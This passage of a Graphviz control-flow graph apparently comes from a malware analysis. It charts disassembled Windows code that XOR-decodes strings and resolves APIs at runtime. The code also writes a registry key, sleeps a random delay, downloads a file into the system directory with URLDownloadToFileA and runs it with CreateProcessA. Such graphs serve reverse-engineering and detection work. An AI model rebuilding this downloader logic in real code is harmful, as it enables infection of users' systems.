a0x004013femovl_FreeLibrary_kernel32_dll_ebp[label="0x004013fe\nmovl FreeLibrary@kernel32.dll, %ebp"];
a0x00401404pushl_0x0UINT8[label="0x00401404\npushl $0x0<UINT8>"];
a0x00401406movl_eax_esi[label="0x00401406\nmovl %eax, %esi"];
a0x00401408testl_esi_esi[label="0x00401408\ntestl %esi, %esi"];
a0x0040140apushl_0x0UINT8[label="0x0040140a\npushl $0x0<UINT8>"];
a0x0040140cpushl_0x403118UINT32[label="0x0040140c\npushl $0x403118<UINT32>"];
a0x00401411je_0x00401427[label="0x00401411\nje 0x00401427"];
a0x00401413pushl_0x403338UINT32[label="0x00401413\npushl $0x403338<UINT32>"];
a0x00401418pushl_0x0UINT8[label="0x00401418\npushl $0x0<UINT8>"];
a0x0040141acall_0x004036c4[label="0x0040141a\ncall 0x004036c4"];
URLDownloadToFileA_Urlmon_dll[label="URLDownloadToFileA@Urlmon.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401420pushl_esi[label="0x00401420\npushl %esi"];
a0x00401421movl_eax_ebx[label="0x00401421\nmovl %eax, %ebx"];
a0x00401423call_ebp[label="0x00401423\ncall %ebp"];
FreeLibrary_kernel32_dll[label="FreeLibrary@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401425jmp_0x00401436[label="0x00401425\njmp 0x00401436"];
a0x00401436xorl_eax_eax[label="0x00401436\nxorl %eax, %eax"];
a0x00401438movl_0x11UINT32_ecx[label="0x00401438\nmovl $0x11<UINT32>, %ecx"];
a0x0040143dleal_0x2cesp__edi[label="0x0040143d\nleal 0x2c(%esp), %edi"];
a0x00401441repz_stosl_eax_es_edi_[label="0x00401441\nrepz stosl %eax, %es:(%edi)"];
a0x00401443leal_0x1cesp__ecx[label="0x00401443\nleal 0x1c(%esp), %ecx"];
a0x00401447pushl_ecx[label="0x00401447\npushl %ecx"];
a0x00401448leal_0x30esp__edx[label="0x00401448\nleal 0x30(%esp), %edx"];
a0x0040144cpushl_edx[label="0x0040144c\npushl %edx"];
a0x0040144dpushl_eax[label="0x0040144d\npushl %eax"];
a0x0040144epushl_eax[label="0x0040144e\npushl %eax"];
a0x0040144fpushl_eax[label="0x0040144f\npushl %eax"];
a0x00401450pushl_eax[label="0x00401450\npushl %eax"];
a0x00401451pushl_eax[label="0x00401451\npushl %eax"];
a0x00401452pushl_eax[label="0x00401452\npushl %eax"];
a0x00401453pushl_0x403118UINT32[label="0x00401453\npushl $0x403118<UINT32>"];
a0x00401458pushl_eax[label="0x00401458\npushl %eax"];
a0x00401459movl_0x44UINT32_0x54esp_[label="0x00401459\nmovl $0x44<UINT32>, 0x54(%esp)"];
a0x00401461call_CreateProcessA_kernel32_dll[label="0x00401461\ncall CreateProcessA@kernel32.dll"];
CreateProcessA_kernel32_dll[label="CreateProcessA@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401467movl_0x004036bc_ecx[label="0x00401467\nmovl 0x004036bc, %ecx"];
a0x0040146dtestl_ecx_ecx[label="0x0040146d\ntestl %ecx, %ecx"];
a0x0040146fje_0x00401499[label="0x0040146f\nje 0x00401499"];
a0x00401471movl_0x004036c0_eax[label="0x00401471\nmovl 0x004036c0, %eax"];
a0x00401476testl_eax_eax[label="0x00401476\ntestl %eax, %eax"];
a0x00401478je_0x00401499[label="0x00401478\nje 0x00401499"];
a0x0040147amovl_0x10esp__eax[label="0x0040147a\nmovl 0x10(%esp), %eax"];
a0x0040147etestl_eax_eax[label="0x0040147e\ntestl %eax, %eax"];
a0x00401480je_0x00401499[label="0x00401480\nje 0x00401499"];
a0x00401499movl_0x14esp__ecx[label="0x00401499\nmovl 0x14(%esp), %ecx"];
a0x0040149dpushl_ecx[label="0x0040149d\npushl %ecx"];
a0x0040149ecall_ebp[label="0x0040149e\ncall %ebp"];
a0x004014a0movl_0x18esp__edx[label="0x004014a0\nmovl 0x18(%esp), %edx"];
a0x004014a4pushl_edx[label="0x004014a4\npushl %edx"];
a0x004014a5call_ebp[label="0x004014a5\ncall %ebp"];
a0x004014a7pushl_0x0UINT8[label="0x004014a7\npushl $0x0<UINT8>"];
a0x004014a9call_ExitProcess_kernel32_dll[label="0x004014a9\ncall ExitProcess@kernel32.dll"];
ExitProcess_kernel32_dll[label="ExitProcess@kernel32.dll",fillcolor="lightgrey",color="lightgrey"];
a0x00401040subl_0x60UINT8_esp -> a0x00401043xorl_eax_eax [color="#000000"];
a0x00401043xorl_eax_eax -> a0x00401045jmp_0x00401050 [color="#000000"];
a0x00401045jmp_0x00401050 -> a0x00401050movb_0x402038eax__cl [color="#000000"];
a0x00401050movb_0x402038eax__cl -> a0x00401056movb_cl_0x4035b0eax_ [color="#000000"];
a0x00401056movb_cl_0x4035b0eax_ -> a0x0040105cincl_eax [color="#000000"];
a0x0040105cincl_eax -> a0x0040105dtestb_cl_cl [color="#000000"];
a0x0040105dtestb_cl_cl -> a0x0040105fjne_0x00401050 [color="#000000"];
a0x0040105fjne_0x00401050 -> a0x00401050movb_0x402038eax__cl [color="#000000",label="T"];
a0x0040105fjne_0x00401050 -> a0x00401061movl_0x4035b0UINT32_eax [color="#000000",label="F"];
a0x00401061movl_0x4035b0UINT32_eax -> a0x00401066leal_0x1eax__edx [color="#000000"];
a0x00401066leal_0x1eax__edx -> a0x00401069leal_esp__esp [color="#000000"];
a0x00401069leal_esp__esp -> a0x00401070movb_eax__cl [color="#000000"];
a0x00401070movb_eax__cl -> a0x00401072incl_eax [color="#000000"];
a0x00401072incl_eax -> a0x00401073testb_cl_cl [color="#000000"];
a0x00401073testb_cl_cl -> a0x00401075jne_0x00401070 [color="#000000"];
a0x00401075jne_0x00401070 -> a0x00401070movb_eax__cl [color="#000000",label="T"];
a0x00401075jne_0x00401070 -> a0x00401077subl_edx_eax [color="#000000",label="F"];
a0x00401077subl_edx_eax -> a0x00401079pushl_eax [color="#000000"];
a0x00401079pushl_eax -> a0x0040107apushl_0x4035b0UINT32 [color="#000000"];
a0x0040107apushl_0x4035b0UINT32 -> a0x0040107fpushl_0x402140UINT32 [color="#000000"];
a0x0040107fpushl_0x402140UINT32 -> a0x00401084call_0x00401000 [color="#000000"];
a0x00401084call_0x00401000 -> a0x00401000pushl_esi [color="#000000"];
a0x00401000pushl_esi -> a0x00401001movl_0x10esp__esi [color="#000000"];
a0x00401001movl_0x10esp__esi -> a0x00401005xorl_eax_eax [color="#000000"];
a0x00401005xorl_eax_eax -> a0x00401007testl_esi_esi [color="#000000"];
a0x00401007testl_esi_esi -> a0x00401009jbe_0x00401032 [color="#000000"];
a0x00401009jbe_0x00401032 -> a0x0040100bmovl_0xcesp__ecx [color="#000000",label="F"];
a0x0040100bmovl_0xcesp__ecx -> a0x0040100fpushl_ebx [color="#000000"];
a0x0040100fpushl_ebx -> a0x00401010pushl_edi [color="#000000"];
a0x00401010pushl_edi -> a0x00401011movl_0x10esp__edi [color="#000000"];
a0x00401011movl_0x10esp__edi -> a0x00401015movb_eaxecx__bl [color="#000000"];
a0x00401015movb_eaxecx__bl -> a0x00401018movl_eax_edx [color="#000000"];
a0x00401018movl_eax_edx -> a0x0040101aandl_0x3UINT8_edx [color="#000000"];
a0x0040101aandl_0x3UINT8_edx -> a0x0040101dmovb_edxedi__dl [color="#000000"];
a0x0040101dmovb_edxedi__dl -> a0x00401020xorb_dl_bl [color="#000000"];
a0x00401020xorb_dl_bl -> a0x00401022movb_bl_eaxecx_ [color="#000000"];
a0x00401022movb_bl_eaxecx_ -> a0x00401025incl_eax [color="#000000"];
a0x00401025incl_eax -> a0x00401026cmpl_esi_eax [color="#000000"];
a0x00401026cmpl_esi_eax -> a0x00401028jb_0x00401015 [color="#000000"];
a0x00401028jb_0x00401015 -> a0x00401015movb_eaxecx__bl [color="#000000",label="T"];
a0x00401028jb_0x00401015 -> a0x0040102apopl_edi [color="#000000",label="F"];
a0x0040102apopl_edi -> a0x0040102bpopl_ebx [color="#000000"];
a0x0040102bpopl_ebx -> a0x0040102cmovb_0x0UINT8_ecxesi_ [color="#000000"];
a0x0040102cmovb_0x0UINT8_ecxesi_ -> a0x00401030popl_esi [color="#000000"];
a0x00401030popl_esi -> a0x00401031ret [color="#000000"];
a0x00401031ret -> a0x00401089addl_0xcUINT8_esp [color="#000000"];
a0x00401089addl_0xcUINT8_esp -> a0x0040108cxorl_eax_eax [color="#000000"];
a0x0040108cxorl_eax_eax -> a0x0040108emovl_edi_edi [color="#000000"];
a0x0040108emovl_edi_edi -> a0x00401090movb_0x402080eax__cl [color="#000000"];
a0x00401090movb_0x402080eax__cl -> a0x00401096movb_cl_0x403010eax_ [color="#000000"];
a0x00401096movb_cl_0x403010eax_ -> a0x0040109cincl_eax [color="#000000"];
a0x0040109cincl_eax -> a0x0040109dtestb_cl_cl [color="#000000"];
a0x0040109dtestb_cl_cl -> a0x0040109fjne_0x00401090 [color="#000000"];
a0x0040109fjne_0x00401090 -> a0x00401090movb_0x402080eax__cl [color="#000000",label="T"];
a0x0040109fjne_0x00401090 -> a0x004010a1movl_0x403010UINT32_eax [color="#000000",label="F"];
a0x004010a1movl_0x403010UINT32_eax -> a0x004010a6leal_0x1eax__edx [color="#000000"];
a0x004010a6leal_0x1eax__edx -> a0x004010a9leal_esp__esp [color="#000000"];
a0x004010a9leal_esp__esp -> a0x004010b0movb_eax__cl [color="#000000"];
a0x004010b0movb_eax__cl -> a0x004010b2incl_eax [color="#000000"];
a0x004010b2incl_eax -> a0x004010b3testb_cl_cl [color="#000000"];
a0x004010b3testb_cl_cl -> a0x004010b5jne_0x004010b0 [color="#000000"];
a0x004010b5jne_0x004010b0 -> a0x004010b0movb_eax__cl [color="#000000",label="T"];
a0x004010b5jne_0x004010b0 -> a0x004010b7subl_edx_eax [color="#000000",label="F"];
a0x004010b7subl_edx_eax -> a0x004010b9pushl_eax [color="#000000"];
a0x004010b9pushl_eax -> a0x004010bapushl_0x403010UINT32 [color="#000000"];
a0x004010bapushl_0x403010UINT32 -> a0x004010bfpushl_0x402140UINT32 [color="#000000"];
a0x004010bfpushl_0x402140UINT32 -> a0x004010c4call_0x00401000 [color="#000000"];
a0x004010c4call_0x00401000 -> a0x00401000pushl_esi [color="#000000"];
a0x00401031ret -> a0x004010c9addl_0xcUINT8_esp [color="#000000"];
a0x004010c9addl_0xcUINT8_esp -> a0x004010ccxorl_eax_eax [color="#000000"];
a0x004010ccxorl_eax_eax -> a0x004010cemovl_edi_edi [color="#000000"];
a0x004010cemovl_edi_edi -> a0x004010d0movb_0x40205ceax__cl [color="#000000"];
a0x004010d0movb_0x40205ceax__cl -> a0x004010d6movb_cl_0x403338eax_ [color="#000000"];
a0x004010d6movb_cl_0x403338eax_ -> a0x004010dcincl_eax [color="#000000"];
a0x004010dcincl_eax -> a0x004010ddtestb_cl_cl [color="#000000"];
a0x004010ddtestb_cl_cl -> a0x004010dfjne_0x004010d0 [color="#000000"];
a0x004010dfjne_0x004010d0 -> a0x004010d0movb_0x40205ceax__cl [color="#000000",label="T"];
a0x004010dfjne_0x004010d0 -> a0x004010e1movl_0x403338UINT32_eax [color="#000000",label="F"];
a0x004010e1movl_0x403338UINT32_eax -> a0x004010e6leal_0x1eax__edx [color="#000000"];
a0x004010e6leal_0x1eax__edx -> a0x004010e9leal_esp__esp [color="#000000"];
a0x004010e9leal_esp__esp -> a0x004010f0movb_eax__cl [color="#000000"];
a0x004010f0movb_eax__cl -> a0x004010f2incl_eax [color="#000000"];
a0x004010f2incl_eax -> a0x004010f3testb_cl_cl [color="#000000"];
a0x004010f3testb_cl_cl -> a0x004010f5jne_0x004010f0 [color="#000000"];
a0x004010f5jne_0x004010f0 -> a0x004010f0movb_eax__cl [color="#000000",label="T"];
a0x004010f5jne_0x004010f0 -> a0x004010f7subl_edx_eax [color="#000000",label="F"];
a0x004010f7subl_edx_eax -> a0x004010f9pushl_eax [color="#000000"];
a0x004010f9pushl_eax -> a0x004010fapushl_0x403338UINT32 [color="#000000"];
a0x004010fapushl_0x403338UINT32 -> a0x004010ffpushl_0x402140UINT32 [color="#000000"];
a0x004010ffpushl_0x402140UINT32 -> a0x00401104call_0x00401000 [color="#000000"];
a0x00401104call_0x00401000 -> a0x00401000pushl_esi [color="#000000"];
a0x00401031ret -> a0x00401109addl_0xcUINT8_esp [color="#000000"];
a0x00401109addl_0xcUINT8_esp -> a0x0040110cxorl_eax_eax [color="#000000"];
a0x0040110cxorl_eax_eax -> a0x0040110emovl_edi_edi [color="#000000"];
a0x0040110emovl_edi_edi -> a0x00401110movb_0x402088eax__cl [color="#000000"];
a0x00401110movb_0x402088eax__cl -> a0x00401116movb_cl_0x40343ceax_ [color="#000000"];
a0x00401116movb_cl_0x40343ceax_ -> a0x0040111cincl_eax [color="#000000"];
a0x0040111cincl_eax -> a0x0040111dtestb_cl_cl [color="#000000"];
a0x0040111dtestb_cl_cl -> a0x0040111fjne_0x00401110 [color="#000000"];
a0x0040111fjne_0x00401110 -> a0x00401110movb_0x402088eax__cl [color="#000000",label="T"];
a0x0040111fjne_0x00401110 -> a0x00401121movl_0x40343cUINT32_eax [color="#000000",label="F"];
a0x00401121movl_0x40343cUINT32_eax -> a0x00401126leal_0x1eax__edx [color="#000000"];
a0x00401126leal_0x1eax__edx -> a0x00401129leal_esp__esp [color="#000000"];
a0x00401129leal_esp__esp -> a0x00401130movb_eax__cl [color="#000000"];
a0x00401130movb_eax__cl -> a0x00401132incl_eax [color="#000000"];
a0x00401132incl_eax -> a0x00401133testb_cl_cl [color="#000000"];
a0x00401133testb_cl_cl -> a0x00401135jne_0x00401130 [color="#000000"];
a0x00401135jne_0x00401130 -> a0x00401130movb_eax__cl [color="#000000",label="T"];
a0x00401135jne_0x00401130 -> a0x00401137subl_edx_eax [color="#000000",label="F"];
a0x00401137subl_edx_eax -> a0x00401139pushl_eax [color="#000000"];
a0x00401139pushl_eax -> a0x0040113apushl_0x40343cUINT32 [color="#000000"];
a0x0040113apushl_0x40343cUINT32 -> a0x0040113fpushl_0x402140UINT32 [color="#000000"];
a0x0040113fpushl_0x402140UINT32 -> a0x00401144call_0x00401000 [color="#000000"];
a0x00401144call_0x00401000 -> a0x00401000pushl_esi [color="#000000"];
a0x00401031ret -> a0x00401149addl_0xcUINT8_esp [color="#000000"];
a0x00401149addl_0xcUINT8_esp -> a0x0040114cxorl_eax_eax [color="#000000"];
a0x0040114cxorl_eax_eax -> a0x0040114emovl_edi_edi [color="#000000"];
a0x0040114emovl_edi_edi -> a0x00401150movb_0x40209ceax__cl [color="#000000"];
a0x00401150movb_0x40209ceax__cl -> a0x00401156movb_cl_0x40321ceax_ [color="#000000"];
a0x00401156movb_cl_0x40321ceax_ -> a0x0040115cincl_eax [color="#000000"];
a0x0040115cincl_eax -> a0x0040115dtestb_cl_cl [color="#000000"];
a0x0040115dtestb_cl_cl -> a0x0040115fjne_0x00401150 [color="#000000"];
a0x0040115fjne_0x00401150 -> a0x00401150movb_0x40209ceax__cl [color="#000000",label="T"];
a0x0040115fjne_0x00401150 -> a0x00401161movl_0x40321cUINT32_eax [color="#000000",label="F"];
a0x00401161movl_0x40321cUINT32_eax -> a0x00401166leal_0x1eax__edx [color="#000000"];
a0x00401166leal_0x1eax__edx -> a0x00401169leal_esp__esp [color="#000000"];
a0x00401169leal_esp__esp -> a0x00401170movb_eax__cl [color="#000000"];
a0x00401170movb_eax__cl -> a0x00401172incl_eax [color="#000000"];
a0x00401172incl_eax -> a0x00401173testb_cl_cl [color="#000000"];
a0x00401173testb_cl_cl -> a0x00401175jne_0x00401170 [color="#000000"];
a0x00401175jne_0x00401170 -> a0x00401170movb_eax__cl [color="#000000",label="T"];
a0x00401175jne_0x00401170 -> a0x00401177subl_edx_eax [color="#000000",label="F"];
a0x00401177subl_edx_eax -> a0x00401179pushl_eax [color="#000000"];
a0x00401179pushl_eax -> a0x0040117apushl_0x40321cUINT32 [color="#000000"];
a0x0040117apushl_0x40321cUINT32 -> a0x0040117fpushl_0x402140UINT32 [color="#000000"];
a0x0040117fpushl_0x402140UINT32 -> a0x00401184call_0x00401000 [color="#000000"];
a0x00401184call_0x00401000 -> a0x00401000pushl_esi [color="#000000"];
a0x00401031ret -> a0x00401189addl_0xcUINT8_esp [color="#000000"];
a0x00401189addl_0xcUINT8_esp -> a0x0040118cxorl_eax_eax [color="#000000"];
a0x0040118cxorl_eax_eax -> a0x0040118emovl_edi_edi [color="#000000"];
a0x0040118emovl_edi_edi -> a0x00401190movb_0x4020dceax__cl [color="#000000"];
a0x00401190movb_0x4020dceax__cl -> a0x00401196movb_cl_0x403000eax_ [color="#000000"];
a0x00401196movb_cl_0x403000eax_ -> a0x0040119cincl_eax [color="#000000"];
a0x0040119cincl_eax -> a0x0040119dtestb_cl_cl [color="#000000"];
a0x0040119dtestb_cl_cl -> a0x0040119fjne_0x00401190 [color="#000000"];
a0x0040119fjne_0x00401190 -> a0x00401190movb_0x4020dceax__cl [color="#000000",label="T"];
a0x0040119fjne_0x00401190 -> a0x004011a1movl_0x403000UINT32_eax [color="#000000",label="F"];
a0x004011a1movl_0x403000UINT32_eax -> a0x004011a6leal_0x1eax__edx [color="#000000"];
a0x004011a6leal_0x1eax__edx -> a0x004011a9leal_esp__esp [color="#000000"];
a0x004011a9leal_esp__esp -> a0x004011b0movb_eax__cl [color="#000000"];
a0x004011b0movb_eax__cl -> a0x004011b2incl_eax [color="#000000"];
a0x004011b2incl_eax -> a0x004011b3testb_cl_cl [color="#000000"];
a0x004011b3testb_cl_cl -> a0x004011b5jne_0x004011b0 [color="#000000"];
a0x004011b5jne_0x004011b0 -> a0x004011b0movb_eax__cl [color="#000000",label="T"];
a0x004011b5jne_0x004011b0 -> a0x004011b7subl_edx_eax [color="#000000",label="F"];
a0x004011b7subl_edx_eax -> a0x004011b9pushl_eax [color="#000000"];
a0x004011b9pushl_eax -> a0x004011bapushl_0x403000UINT32 [color="#000000"];
a0x004011bapushl_0x403000UINT32 -> a0x004011bfpushl_0x402140UINT32 [color="#000000"];
a0x004011bfpushl_0x402140UINT32 -> a0x004011c4call_0x00401000 [color="#000000"];
a0x004011c4call_0x00401000 -> a0x00401000pushl_esi [color="#000000"];
a0x00401031ret -> a0x004011c9addl_0xcUINT8_esp [color="#000000"];
a0x004011c9addl_0xcUINT8_esp -> a0x004011ccxorl_eax_eax [color="#000000"];
a0x004011ccxorl_eax_eax -> a0x004011cemovl_edi_edi [color="#000000"];
a0x004011cemovl_edi_edi -> a0x004011d0movb_0x4020a8eax__cl [color="#000000"];
a0x004011d0movb_0x4020a8eax__cl -> a0x004011d6movb_cl_0x403230eax_ [color="#000000"];
a0x004011d6movb_cl_0x403230eax_ -> a0x004011dcincl_eax [color="#000000"];
a0x004011dcincl_eax -> a0x004011ddtestb_cl_cl [color="#000000"];
a0x004011ddtestb_cl_cl -> a0x004011dfjne_0x004011d0 [color="#000000"];
a0x004011dfjne_0x004011d0 -> a0x004011d0movb_0x4020a8eax__cl [color="#000000",label="T"];
a0x004011dfjne_0x004011d0 -> a0x004011e1movl_0x403230UINT32_eax [color="#000000",label="F"];
a0x004011e1movl_0x403230UINT32_eax -> a0x004011e6leal_0x1eax__edx [color="#000000"];
a0x004011e6leal_0x1eax__edx -> a0x004011e9leal_esp__esp [color="#000000"];
a0x004011e9leal_esp__esp -> a0x004011f0movb_eax__cl [color="#000000"];
a0x004011f0movb_eax__cl -> a0x004011f2incl_eax [color="#000000"];
a0x004011f2incl_eax -> a0x004011f3testb_cl_cl [color="#000000"];
a0x004011f3testb_cl_cl -> a0x004011f5jne_0x004011f0 [color="#000000"];
a0x004011f5jne_0x004011f0 -> a0x004011f0movb_eax__cl [color="#000000",label="T"];
a0x004011f5jne_0x004011f0 -> a0x004011f7pushl_ebx [color="#000000",label="F"];
a0x004011f7pushl_ebx -> a0x004011f8pushl_ebp [color="#000000"];
a0x004011f8pushl_ebp -> a0x004011f9pushl_esi [color="#000000"];
a0x004011f9pushl_esi -> a0x004011fapushl_edi [color="#000000"];
a0x004011fapushl_edi -> a0x004011fbsubl_edx_eax [color="#000000"];
a0x004011fbsubl_edx_eax -> a0x004011fdpushl_eax [color="#000000"];
a0x004011fdpushl_eax -> a0x004011fepushl_0x403230UINT32 [color="#000000"];
a0x004011fepushl_0x403230UINT32 -> a0x00401203pushl_0x402140UINT32 [color="#000000"];
a0x00401203pushl_0x402140UINT32 -> a0x00401208call_0x00401000 [color="#000000"];
a0x00401208call_0x00401000 -> a0x00401000pushl_esi [color="#000000"];
a0x00401031ret -> a0x0040120dmovl_LoadLibraryA_kernel32_dll_ebx [color="#000000"];
a0x0040120dmovl_LoadLibraryA_kernel32_dll_ebx -> a0x00401213addl_0xcUINT8_esp [color="#000000"];
a0x00401213addl_0xcUINT8_esp -> a0x00401216pushl_0x402130UINT32 [color="#000000"];
a0x00401216pushl_0x402130UINT32 -> a0x0040121bcall_ebx [color="#000000"];
a0x0040121bcall_ebx -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x0040121dmovl_GetProcAddress_kernel32_dll_esi [color="#000000"];
a0x0040121dmovl_GetProcAddress_kernel32_dll_esi -> a0x00401223movl_eax_edi [color="#000000"];
a0x00401223movl_eax_edi -> a0x00401225testl_edi_edi [color="#000000"];
a0x00401225testl_edi_edi -> a0x00401227movl_edi_0x14esp_ [color="#000000"];
a0x00401227movl_edi_0x14esp_ -> a0x0040122bje_0x00401261 [color="#000000"];
a0x0040122bje_0x00401261 -> a0x0040122dpushl_0x402120UINT32 [color="#000000",label="F"];
a0x0040122dpushl_0x402120UINT32 -> a0x00401232pushl_edi [color="#000000"];
a0x00401232pushl_edi -> a0x00401233call_esi [color="#000000"];
a0x00401233call_esi -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401235pushl_0x402110UINT32 [color="#000000"];
a0x00401235pushl_0x402110UINT32 -> a0x0040123apushl_edi [color="#000000"];
a0x0040123apushl_edi -> a0x0040123bmovl_eax_0x004036b8 [color="#000000"];
a0x0040123bmovl_eax_0x004036b8 -> a0x00401240call_esi [color="#000000"];
a0x00401240call_esi -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401242pushl_0x402100UINT32 [color="#000000"];
a0x00401242pushl_0x402100UINT32 -> a0x00401247pushl_edi [color="#000000"];
a0x00401247pushl_edi -> a0x00401248movl_eax_0x004036b4 [color="#000000"];
a0x00401248movl_eax_0x004036b4 -> a0x0040124dcall_esi [color="#000000"];
a0x0040124dcall_esi -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x0040124fpushl_0x4020f4UINT32 [color="#000000"];
a0x0040124fpushl_0x4020f4UINT32 -> a0x00401254pushl_edi [color="#000000"];
a0x00401254pushl_edi -> a0x00401255movl_eax_0x004036bc [color="#000000"];
a0x00401255movl_eax_0x004036bc -> a0x0040125acall_esi [color="#000000"];
a0x0040125acall_esi -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x0040125cmovl_eax_0x004036c0 [color="#000000"];
a0x0040125cmovl_eax_0x004036c0 -> a0x00401261pushl_0x40321cUINT32 [color="#000000"];
a0x00401261pushl_0x40321cUINT32 -> a0x00401266call_ebx [color="#000000"];
a0x00401266call_ebx -> LoadLibraryA_kernel32_dll [color="#000000"];
LoadLibraryA_kernel32_dll -> a0x00401268testl_eax_eax [color="#000000"];
a0x00401268testl_eax_eax -> a0x0040126amovl_eax_0x18esp_ [color="#000000"];
a0x0040126amovl_eax_0x18esp_ -> a0x0040126eje_0x0040127d [color="#000000"];
a0x0040126eje_0x0040127d -> a0x00401270pushl_0x40343cUINT32 [color="#000000",label="F"];
a0x00401270pushl_0x40343cUINT32 -> a0x00401275pushl_eax [color="#000000"];
a0x00401275pushl_eax -> a0x00401276call_esi [color="#000000"];
a0x00401276call_esi -> GetProcAddress_kernel32_dll [color="#000000"];
GetProcAddress_kernel32_dll -> a0x00401278movl_eax_0x004036c4 [color="#000000"];
a0x00401278movl_eax_0x004036c4 -> a0x0040127dpushl_0x104UINT32 [color="#000000"];
a0x0040127dpushl_0x104UINT32 -> a0x00401282pushl_0x403118UINT32 [color="#000000"];
a0x00401282pushl_0x403118UINT32 -> a0x00401287pushl_0x0UINT8 [color="#000000"];
a0x00401287pushl_0x0UINT8 -> a0x00401289movl_0x0UINT32_0x1cesp_ [color="#000000"];
a0x00401289movl_0x0UINT32_0x1cesp_ -> a0x00401291call_GetModuleFileNameA_kernel32_dll [color="#000000"];
a0x00401291call_GetModuleFileNameA_kernel32_dll -> GetModuleFileNameA_kernel32_dll [color="#000000"];
GetModuleFileNameA_kernel32_dll -> a0x00401297movl_0x004036b8_eax [color="#000000"];
a0x00401297movl_0x004036b8_eax -> a0x0040129ctestl_eax_eax [color="#000000"];
a0x0040129ctestl_eax_eax -> a0x0040129eje_0x004012fa [color="#000000"];
a0x0040129eje_0x004012fa -> a0x004012a0movl_0x004036b4_ecx [color="#000000",label="F"];
a0x004012a0movl_0x004036b4_ecx -> a0x004012a6testl_ecx_ecx [color="#000000"];
a0x004012a6testl_ecx_ecx -> a0x004012a8je_0x004012fa [color="#000000"];
a0x004012a8je_0x004012fa -> a0x004012aapushl_0x0UINT8 [color="#000000",label="F"];
a0x004012aapushl_0x0UINT8 -> a0x004012acleal_0x14esp__ecx [color="#000000"];
a0x004012acleal_0x14esp__ecx -> a0x004012b0pushl_ecx [color="#000000"];
a0x004012b0pushl_ecx -> a0x004012b1pushl_0x0UINT8 [color="#000000"];
a0x004012b1pushl_0x0UINT8 -> a0x004012b3pushl_0x20006UINT32 [color="#000000"];
a0x004012b3pushl_0x20006UINT32 -> a0x004012b8pushl_0x0UINT8 [color="#000000"];
a0x004012b8pushl_0x0UINT8 -> a0x004012bapushl_0x0UINT8 [color="#000000"];
a0x004012bapushl_0x0UINT8 -> a0x004012bcpushl_0x0UINT8 [color="#000000"];
a0x004012bcpushl_0x0UINT8 -> a0x004012bepushl_0x403230UINT32 [color="#000000"];
a0x004012bepushl_0x403230UINT32 -> a0x004012c3pushl_0x80000001UINT32 [color="#000000"];
a0x004012c3pushl_0x80000001UINT32 -> a0x004012c8call_eax [color="#000000"];
a0x004012c8call_eax -> RegCreateKeyExA_advapi32_dll [color="#000000"];
RegCreateKeyExA_advapi32_dll -> a0x004012catestl_eax_eax [color="#000000"];
a0x004012catestl_eax_eax -> a0x004012ccjne_0x004012fa [color="#000000"];
a0x004012ccjne_0x004012fa -> a0x004012facall_GetTickCount_kernel32_dll [color="#000000",label="T"];
a0x004012facall_GetTickCount_kernel32_dll -> GetTickCount_kernel32_dll [color="#000000"];
GetTickCount_kernel32_dll -> a0x00401300xorl_edx_edx [color="#000000"];
a0x00401300xorl_edx_edx -> a0x00401302movl_0x78UINT32_ecx [color="#000000"];
a0x00401302movl_0x78UINT32_ecx -> a0x00401307divl_ecx_eax [color="#000000"];
a0x00401307divl_ecx_eax -> a0x00401309addl_0xb4UINT32_edx [color="#000000"];
a0x00401309addl_0xb4UINT32_edx -> a0x0040130fimull_0x3e8UINT32_edx_edx [color="#000000"];
a0x0040130fimull_0x3e8UINT32_edx_edx -> a0x00401315pushl_edx [color="#000000"];
a0x00401315pushl_edx -> a0x00401316call_Sleep_kernel32_dll [color="#000000"];
a0x00401316call_Sleep_kernel32_dll -> Sleep_kernel32_dll [color="#000000"];
Sleep_kernel32_dll -> a0x0040131cpushl_0x104UINT32 [color="#000000"];
a0x0040131cpushl_0x104UINT32 -> a0x00401321pushl_0x403118UINT32 [color="#000000"];
a0x00401321pushl_0x403118UINT32 -> a0x00401326call_GetSystemDirectoryA_kernel32_dll [color="#000000"];
a0x00401326call_GetSystemDirectoryA_kernel32_dll -> GetSystemDirectoryA_kernel32_dll [color="#000000"];
GetSystemDirectoryA_kernel32_dll -> a0x0040132cmovl_0x403118UINT32_eax [color="#000000"];
a0x0040132cmovl_0x403118UINT32_eax -> a0x00401331leal_0x1eax__edx [color="#000000"];
a0x00401331leal_0x1eax__edx -> a0x00401334movb_eax__cl [color="#000000"];
a0x00401334movb_eax__cl -> a0x00401336incl_eax [color="#000000"];
a0x00401336incl_eax -> a0x00401337testb_cl_cl [color="#000000"];
a0x00401337testb_cl_cl -> a0x00401339jne_0x00401334 [color="#000000"];
a0x00401339jne_0x00401334 -> a0x00401334movb_eax__cl [color="#000000",label="T"];
a0x00401339jne_0x00401334 -> a0x0040133bsubl_edx_eax [color="#000000",label="F"];
a0x0040133bsubl_edx_eax -> a0x0040133dcmpb_0x5cUINT8_0x403117eax_ [color="#000000"];
a0x0040133dcmpb_0x5cUINT8_0x403117eax_ -> a0x00401344je_0x0040137a [color="#000000"];
a0x00401344je_0x0040137a -> a0x00401346movl_0x403118UINT32_eax [color="#000000",label="F"];
a0x00401346movl_0x403118UINT32_eax -> a0x0040134bleal_0x1eax__edx [color="#000000"];
a0x0040134bleal_0x1eax__edx -> a0x0040134emovl_edi_edi [color="#000000"];
a0x0040134emovl_edi_edi -> a0x00401350movb_eax__cl [color="#000000"];
a0x00401350movb_eax__cl -> a0x00401352incl_eax [color="#000000"];
a0x00401352incl_eax -> a0x00401353testb_cl_cl [color="#000000"];
a0x00401353testb_cl_cl -> a0x00401355jne_0x00401350 [color="#000000"];
a0x00401355jne_0x00401350 -> a0x00401350movb_eax__cl [color="#000000",label="T"];
a0x00401355jne_0x00401350 -> a0x00401357subl_edx_eax [color="#000000",label="F"];
a0x00401357subl_edx_eax -> a0x00401359cmpb_0x2fUINT8_0x403117eax_ [color="#000000"];
a0x00401359cmpb_0x2fUINT8_0x403117eax_ -> a0x00401360je_0x0040137a [color="#000000"];
